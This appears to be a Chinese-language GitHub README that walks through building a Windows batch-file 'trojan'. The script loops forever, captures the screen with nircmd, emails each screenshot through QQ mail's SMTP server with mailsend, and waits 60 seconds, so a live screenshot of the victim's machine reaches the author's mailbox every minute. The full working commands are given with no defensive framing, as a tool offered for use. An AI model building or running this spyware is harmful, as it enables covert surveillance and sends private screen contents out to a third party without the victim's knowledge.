









#操作流程

1.在桌面上创建新文本文件，重命名为first.bat



2.在qq邮箱中设置>账户>开启IMAP/SMTP服务,获取授权码





3.右键单击first.bat文件，点击编辑,之后按照脚本提示编辑内容
（1）先关闭批处理的回显：

```batch
@echo off
```

（2）然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

（3）同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

（4）使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```



（5）使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

（6）请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

（7）使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 60000
```



4.在命令提示符中访问first.bat



5.木马运行成功，每隔60s会在邮箱接收到一个实时屏幕截图





